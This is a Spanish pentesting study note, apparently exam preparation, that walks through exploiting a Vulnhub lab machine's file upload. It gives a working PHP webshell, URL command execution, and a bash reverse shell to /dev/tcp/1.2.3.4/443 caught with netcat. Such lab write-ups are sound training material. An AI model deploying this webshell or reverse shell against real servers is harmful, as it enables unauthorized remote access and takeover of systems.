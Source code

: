 
---
- TAG: #Intrusión #Servidor #Webshell
----
# Concepto y Práctica de una Webshell

En este bloc, vamos a aprender el concepto de una **Webshell** y ponerlo en práctica. Es una alternativa a los payloads creados con `.php`, similar a los generados con `msfvenom` para crear archivos maliciosos en `.php`.

La **Webshell** nos permite subir archivos maliciosos al servidor y, una vez accedamos a él, podamos ejecutar comandos de forma remota.

Vamos a explicar cómo se realizaría:

Para esto, vamos a necesitar:
1. Una máquina **Kali Linux**.
2. Máquina vulnerable de **Vulnhub** [Máquina SECTALKS: BNE0X03 - SIMPLE](https://www.vulnhub.com/entry/sectalks-bne0x03-simple%2C141/).

Una vez iniciada, vamos a nuestra máquina **Kali Linux** y realizamos el procedimiento correcto:
1. `arp-scan` para localizar la máquina víctima.
2. `ping` para ver el tipo de TTL y ver a qué nos enfrentamos.
3. `nmap` para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Como ya habíamos trabajado con esta máquina, vamos directo a la explicación de la **Webshell**. Como mencionamos anteriormente, tenemos abierto el puerto 80 con una página web en el navegador que nos permite subir archivos.

Como habíamos probado subir archivos `.php` utilizando la herramienta `msfvenom`, vamos a probar una alternativa en caso de que nos refleje algún error al intentar usar `msfvenom` para la creación de payload.

1. Empezamos creando el archivo `.php`:
   ```bash
   nano webshell.php
   ```

   Dentro del archivo peguen lo siguiente, ya que en el examen no habrá internet y tendremos que tener estos apuntes:

   ```php
   <?php
       echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   ?>
   ```

   Salimos y guardamos.

2. Nos dirigimos al navegador y subimos el archivo recién creado.
3. En blocs anteriores hemos visto que teníamos la ruta `192.168.0.47/uploads`. Accedemos a ella y veremos que aparece nuestro archivo correctamente subido, pero al hacer click se queda en blanco.
4. Editamos la **URL** para obtener la intrusión. Al final del todo debe empezar con el signo `?`:
   ```bash
   192.168.0.47/uploads/avatar_kali_webshell.php?cmd=whoami
   ```

Veremos por respuesta `www-data` dentro del navegador, es decir, que hemos conseguido el acceso correctamente.

Pero en este punto no nos otorga una revershell como lo hacía `msfvenom`. Aquí estaremos consiguiendo ejecución remota de comandos. Si queremos intrusión a la máquina, lo que hay que hacer es insertar el comando propio de la **Revershell** pero **URLCodeada**, porque estamos insertando comandos dentro de la **URL** del navegador.

La mejor herramienta para **URLCodear** un comando es **Burpsuite**.

En el apartado de **Decoder**, verificamos nuestra dirección IP y le configuramos al comando de la revershell. Les recomiendo hacerlo así para evitar muchos problemas:

```bash
bash -c "bash -i >& /dev/tcp/1.2.3.4/443 0>&1"
```

En la opción `Encode as...` a su lado derecho, seleccionen `URL`.

Copiamos el resultado URL codeado.

Vamos a la terminal y nos ponemos en escucha por el puerto **443**:

```bash
nc -nlvp 443
```

Regresamos al navegador web y, después del `=` donde ejecutamos comandos como `whoami` o `ls`, borramos y pegamos la URL codeada.

![URL Encoded](url.png)

Una vez ejecutado este comando en la **URL**, tendremos acceso remoto a nuestra terminal por netcat por el puerto en escucha **443**.

Esta sería la otra opción en caso de que presenten problemas con la herramienta de `msfvenom`.

Con esta opción tampoco perderán la conexión como lo hacíamos con `msfvenom`.